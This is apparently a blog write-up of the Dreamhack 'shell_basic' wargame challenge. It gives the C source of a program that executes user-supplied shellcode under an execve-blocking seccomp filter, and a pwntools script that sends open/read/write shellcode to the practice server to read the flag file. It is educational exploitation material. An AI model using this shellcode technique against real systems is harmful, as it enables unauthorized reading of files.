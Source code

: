```yaml
---
layout: post
title: "[dreamhack] shell_basic"
comments: true
category: wargame
---
```


## Description
![Description](/assets/img/shell_basic/shell_basic_description.png){: .mx-auto.d-block :}

We can get flag by send shellcode to server.

***

## C code

```cpp
// Compile: gcc -o shell_basic shell_basic.c -lseccomp
// apt install seccomp libseccomp-dev

#include <fcntl.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/prctl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <signal.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(10);
}

void banned_execve() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);
  if (ctx == NULL) {
    exit(0);
  }
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);

  seccomp_load(ctx);
}

void main(int argc, char *argv[]) {
  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   
  void (*sc)();
  
  init();
  
  banned_execve();

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sc = (void *)shellcode;
  sc();
}
```

After receiving 'shellcode: ', we can send shellcode and server will exec that by sc().

***

## Ex code

We can use shellcraft() of pwntools for writing shellcode.<br />
Shellcode must consist with these things.<br />

1. Open flag's file. (fd -> rax)
2. Read flag and write that to buffer. (from rax to rsp)
3. Write buffer to stdout. (from rsp to stdout(1))

Here is full ex code.
```python
from pwn import *

context.arch = 'amd64'          # shellcodes are different by environment
r = remote('host3.dreamhack.games', 13296)

shellcode = shellcraft.open('/home/shell_basic/flag_name_is_loooooong')
shellcode += shellcraft.read('rax', 'rsp', 0x30)        # We don't know buf size,
shellcode += shellcraft.write(1, 'rsp', 0x30)           # but 0x30 is enough.

asmShellcode = asm(shellcode)

r.sendafter(b'shellcode: ', asmShellcode)
print(r.recv(0x30))
```